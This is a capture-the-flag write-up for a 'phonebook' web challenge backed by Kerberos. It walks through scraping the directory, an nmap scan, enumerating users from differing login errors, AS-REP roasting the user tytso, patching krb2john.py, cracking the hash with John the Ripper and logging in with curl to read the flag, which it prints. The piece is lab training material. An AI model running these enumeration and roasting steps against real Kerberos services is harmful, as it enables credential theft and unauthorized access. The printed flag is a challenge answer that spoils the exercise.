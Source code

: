 #### Challenge:

Hi Expert,

the archaeologists are looking forward to get some phone numbers from the phone book running on `http://78.128.246.142`, don't make them wait too long.

Good Luck!

---

#### Solution:

We are provided with a site that claims it is some kind of `phonebook`.

It has 2 functions:

1. It allows to search for persons in the phonebook by inputting any `at least 2 character` string (case insensitively)
2. It has simple login interface with fields `username`, `password` and `realm` that has force-fixed value `SUPERPHONEBOOK.TCC`

Using this script:

```python
#!/usr/bin/env python3

import requests
import string
import re

ses = requests.session()
r = ses.get('http://78.128.246.142')

phonebook = []

for a in list(string.ascii_lowercase):
    for b in list(string.ascii_lowercase):
        data = {
          "query": f"{a}{b}"
        }
        r = ses.post(f"http://78.128.246.142/search", data=data)

        matches = re.findall(r"<li>.*?</li>",str(r.content))
        if matches:
            for i in range(len(matches)):
                phonebook.append(matches[i])

# deduplicate
phonebook_uniq = (list(set(phonebook)))

for string in phonebook_uniq:
    print(string.replace("<p>", "").replace("<li>", "").replace("</li>", "").replace("\\t", "").replace("\\n", "\n"))
```

We enumerated all entries in the phonebook to get:

```text
email: tytso@superphonebook.tcc
name: Theodore Ts&#39;o
homepage:
phone: anonymous phone search disabled


email: bill@superphonebook.tcc
name: Bill Bryant
homepage: https://web.mit.edu/kerberos/www/dialogue.html
phone: anonymous phone search disabled


email: aaron@superphonebook.tcc
name: Aaron Spelling
homepage: http://enumerate.more
phone: anonymous phone search disabled


email: harmj0y@superphonebook.tcc
name: Will Schroeder
homepage: https://www.harmj0y.net
phone: anonymous phone search disabled
```

Following the advice from a hint we checked other services on the server:

```bash
nmap -v -PE 78.128.246.142
```

to find out that there is kerberos running on port 88:

```text
PORT    STATE    SERVICE
80/tcp  open     http
88/tcp  open     kerberos-sec
135/tcp filtered msrpc
139/tcp filtered netbios-ssn
179/tcp filtered bgp
445/tcp filtered microsoft-ds
```

Trying to log in with the combination of username part from the email and random password reveals interesting info - for users `bill`, `aaron` and `harmj0y` we get this error: `invalid credentials, ('Client not found in Kerberos database', -1765328378)` but for user `tytso` we get: `invalid credentials, ('Decrypt integrity check failed', -1765328353)`. From this, it can be assumed, that we have to somehow get the password for this user.

Putting together the fact that the server is running `kerberos`, the hint to `kerberos "dialogs"` by `Bill Bryant` in `Bill Bryant's` homepage and the fact that on the `www.harmj0y.net` is blog called `Kerberoasting Revisited`, leads us to investigate `kerberoasting` and [asreproasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) - which we think is the point of this challenge.

Another hint points to `john` which after some time spent searching, in context with `kerberos` and `asreproasting` points to this [file](https://github.com/openwall/john/blob/bleeding-jumbo/run/krb2john.py). In the file there are instructions on how to extract hashes from `PCAP` file containing `AS-REP hashes` to format that is crackable by `John-the-Ripper`.

For `asreproasting` we used [kerberoast](https://pypi.org/project/kerberoast/).

```bash
pip3 install kerberoast
```

Then we started `wireshark` capture and after running the following command we saved the capture as `/tmp/out.pcap`:

```bash
kerberoast asreproast 78.128.246.142 -u tytso -r SUPERPHONEBOOK.TCC -e 18;
```

Then we run the following series of commands:

```bash
tshark -2 -r /tmp/out.pcap -R "tcp.srcport==88 or udp.srcport==88" -T pdml > data.pdml
python3 ./john/run/krb2john.py data.pdml > hash.txt
john hash.txt
```

But they return an error - `Unable to find kerberos.salt value. Please report this bug to us!`. Digging a bit into the `krb2john.py` code, we can see that this happens, when the `e-type` is not `23` (which isn't supported by this challenge, only `17` and `18` are) and when the `salt` for the hash is missing. Looking into the `data.pdml`, I see there is a field with name `kerberos.info2_salt` but `krb2john.py` is looking for `kerberos.salt`. Patching it in the  `krb2john.py` and rerunning the commands sucessfully returns the password of the user `tytso` to be `garfunkel4`. With that we can login and the flag is found in `tytso`'s phone number.

```bash
curl 'http://78.128.246.142/login' -s --data-raw 'username=tytso&password=garfunkel4' --cookie-jar cookies > /dev/null
curl 'http://78.128.246.142/search' -s --cookie cookies --data-raw 'query=th' | grep -oe 'FLAG{.*}'
```

---

<details><summary>FLAG:</summary>

```
FLAG{MLeq-38Tt-Y1Tz-NdE9}
```

</details>
<br/>
